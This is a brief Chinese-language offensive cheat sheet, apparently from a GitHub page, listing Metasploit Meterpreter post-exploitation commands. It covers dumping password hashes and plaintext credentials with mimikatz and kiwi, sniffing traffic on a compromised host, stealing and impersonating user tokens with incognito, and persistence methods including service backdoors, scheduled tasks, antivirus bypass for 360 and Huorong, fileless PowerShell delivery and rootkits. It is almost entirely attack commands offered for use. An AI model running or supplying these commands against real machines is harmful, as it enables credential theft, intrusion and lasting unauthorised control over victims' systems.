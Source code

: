 ### HASH获取

~~~~~markdown
meterpreter > load mimikatz  #加载mimikatz
		--kiwi--
meterpreter > msv #获取hash值
meterpreter > kerberos #获取明文（system权限）
meterpreter >ssp   #获取明文信息
meterpreter > wdigest #获取系统账户信
meterpreter >mimikatz_command -f a::   #必须要以错误的模块来让正确的模块显示
meterpreter >mimikatz_command -f hash::   #获取目标 hash
meterpreter > mimikatz_command -f samdump::hashes
meterpreter > mimikatz_command -f sekurlsa::searchPa
run post/windows/gather/smart_hashdump

win7 有uac控制
~~~~~

### 嗅探

~~~markdown
use sniffer # 加载嗅探模块
sniffer_interfaces #列出目标主机所有开放的网络接口
sniffer_start 2 #获取正在实施嗅探网络接口的统计数据
sniffer_dump 2 /tmp/test2.cap #在目标主机上针对特定范围的数据包缓冲区启动嗅探
sniffer_stop  2   #停止嗅探

对抓取的包进行解包：
use auxiliary/sniffer/psnuffle
set pcapfile 1.cap
run
wireshark，加载这个/tmp/xpsp1.cap 也可

~~~

### 盗取令牌

~~~~markdown
meterpreter >use incognito    加载incoginto功能（用来盗窃目标主机的令牌或是假冒用户)
meterpreter >list_tokens -u    列出目标主机用户的可用令牌
meterpreter >list_tokens -g    列出目标主机用户组的可用令牌
meterpreter >impersonate_token DOMAIN_NAME\\USERNAME    假冒目标主机上的可用令牌,如meterpreter > impersonate_token QLWEB\\Administrato
~~~~

### 持久控制服务器

~~~~
注册表，

服务后门，

计划任务，

​	360，火绒绕过

​	cs 调用powershell 无文件攻击
	web_delivery

rookit（linux）
~~~~

